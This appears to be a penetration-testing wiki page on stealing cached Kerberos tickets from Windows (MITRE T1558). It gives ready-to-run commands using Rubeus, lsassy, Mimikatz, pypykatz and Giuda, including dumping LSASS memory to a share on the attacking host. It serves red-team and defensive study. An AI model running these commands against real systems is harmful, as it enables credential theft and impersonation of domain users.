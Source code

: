 ```yaml
---
description: MITRE ATT&CK™ Steal or Forge Kerberos Tickets - Technique T1558
---
```


# Cached Kerberos tickets

## Theory

In Windows, [Kerberos](../../../persistence/kerberos/) tickets are **handled and stored by the** [**lsass** (Local Security Authority Subsystem Service)](lsass/) process, which is responsible for security. Hence, to retrieve tickets from a Windows system, it is necessary to **communicate with lsass and ask for them**. As a **non-administrative user only owned tickets can be fetched**, however, as machine **administrator**, **all** of them can be harvested using tools like **Mimikatz, Rubeus** or **Giuda.**

## Practice

### Enumerate

{% tabs %}
{% tab title="Klist" %}
[Klist](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/klist) is a native Windows tool that can display a list of currently cached Kerberos tickets.&#x20;

```powershell
#Enumerate TGT and TGS
klist tickets

#Enumerate sessions
klist sessions
```
{% endtab %}

{% tab title="Rubeus" %}
[Rubeus](https://github.com/GhostPack/Rubeus) can be use to enumerate tickets&#x20;

```powershell
.\Rubeus.exe triage
```
{% endtab %}
{% endtabs %}

### Dump tickets

{% tabs %}
{% tab title="Unix-Like" %}
From an Unix attacking machine, we can remotely dump tickets using [lsassy](https://github.com/Hackndo/lsassy).

```bash
# With a password
lsassy -d <DOMAIN.LOCAL> -u <USER> -p <PASSWORD> <TARGET> -K '/tmp/kerberos_tickets'

# With PtH
lsassy -d <DOMAIN.LOCAL> -u <USER> -H <NTHash> <TARGET> -K '/tmp/kerberos_tickets'

# With PtT
lsassy -k <TARGET> -K '/tmp/kerberos_tickets'
```

We also can do it manually by dumping LSASS memory using one of [this techniques](lsass/), exfiltrate the dump on our attacking machine, and then retrieve tickets using [pypykatz](https://github.com/skelsec/pypykatz).

```bash
# Example of a dump where Z: is mounted on the attacking host
tasklist /fi "imagename eq lsass.exe"
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump $lsass_pid Z:\lsass.dmp full

# Get Tickets
pypykatz lsa minidump /path/to/lsass.dmp -k /tmp/kerberos_tickets
```
{% endtab %}

{% tab title="Windows" %}
[Rubeus](https://github.com/GhostPack/Rubeus) can also be use to dump TGTs from the LSASS process

```powershell
# Dump all tickets
.\Rubeus dump

# Dump the interesting one by luid
.\Rubeus.exe dump /service:krbtgt /luid:<luid> /nowrap

# Write ticket to disk
[IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<BASE64_TICKET>"))
```

[Mimikatz](https://github.com/gentilkiwi/mimikatz) can be use to dump TGTs from the LSASS process

```
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
```
{% endtab %}
{% endtabs %}



### Ask a TGS

Using tools like **Giuda ,** we can avoid dumping LSASS memory. With the [SeTcbPrivilege](../../../../windows/privesc/abusing-tokens.md#setcbprivilege), we can read LSA storage, extract the SESSION KEY from TGT, and forge a request asking for a TGS; We must use LUID instead of Username.

{% tabs %}
{% tab title="Giuda" %}
[Giuda](https://github.com/foxlox/GIUDA) can be use to requests a TGS on behalf of another user (without password)

```powershell
#Request a TGS
.\guida.exe -gettgs -luid:<LogonID> -msdsspn:<SPN>

#Example
.\guida.exe -gettgs -luid:0x1875dc -msdsspn:HOST/dc01.lab.local
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-kerberos-88/harvesting-tickets-from-windows" %}
